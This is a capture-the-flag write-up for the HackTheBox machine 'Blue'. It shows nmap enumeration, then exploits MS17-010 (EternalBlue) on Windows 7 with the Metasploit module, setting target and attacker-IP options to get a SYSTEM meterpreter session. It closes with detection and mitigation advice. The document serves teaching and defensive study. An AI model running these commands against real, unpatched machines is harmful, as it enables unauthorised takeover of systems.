






# Blue — EternalBlue and Why You Should Run It by Hand

**HackTheBox · Windows 7 SP1**

Blue is the canonical EternalBlue machine on HackTheBox. It exists to teach ms17-010. Most people run it through Metasploit in under five minutes and move on. The value is not in the root shell — it is in understanding what the exploit is actually doing before you automate it into a single command.

> [!NOTE]
> **Vector:** MS17-010 (EternalBlue) SMBv1 remote code execution → `NT AUTHORITY\SYSTEM`. There is no privilege-escalation phase — kernel execution lands at the highest privilege level directly.

## Enumeration

```bash
nmap -sV -sC -p- -oN nmap_blue <target>
# 135 (msrpc), 139 (netbios-ssn), 445 (microsoft-ds)
# OS: Windows 7 Professional SP1
```



Two things immediately visible: SMB on port 445, and Windows 7 SP1. That combination has one obvious implication. The nmap vuln scripts confirmed it — ms17-010, EternalBlue.



## The vulnerability

EternalBlue exploits a buffer overflow in the Windows SMBv1 implementation. The exploit sends a malformed `TRANSACTION2` request, overflows a pool buffer, and achieves kernel-level code execution. It was developed by the NSA, leaked by the Shadow Brokers in 2017, and used in both WannaCry and NotPetya within weeks of the leak.

**The patch (MS17-010) was available before the leak. Every machine that fell to WannaCry was running unpatched software against a known vulnerability.**

## Exploitation

```bash
msfconsole
search ms17-010
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <target>
set LHOST <attacker-ip>
run
```





The exploit targets port 445 directly. On success a meterpreter session opens as `NT AUTHORITY\SYSTEM` — kernel execution means landing at the highest Windows privilege level. There is no escalation phase because there is no lower privilege to escalate from.

```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```



## What this actually demonstrates

Blue is not a complex machine. Its purpose is to make a point: an unpatched SMB service on a network-accessible machine belongs to whoever finds it first. The exploit is stable, reliable, and in every major framework. The follow-up exercise that matters is running Wireshark while the exploit fires — watch the malformed TRANSACTION2 packets, watch the shell pop, and understand it at the wire level rather than trusting a module to do the thinking for you.

## Detection & mitigation

- Disable SMBv1 entirely — it has no legitimate use case on modern networks.
- Apply MS17-010; if a system cannot be patched, it should not be network-accessible.
- Monitor for anomalous SMB traffic: large malformed TRANSACTION2 requests are EternalBlue's fingerprint on the wire.
- Network segmentation limits blast radius — an exploited workstation should not have unfiltered SMB access to the rest of the domain.

## Attack path


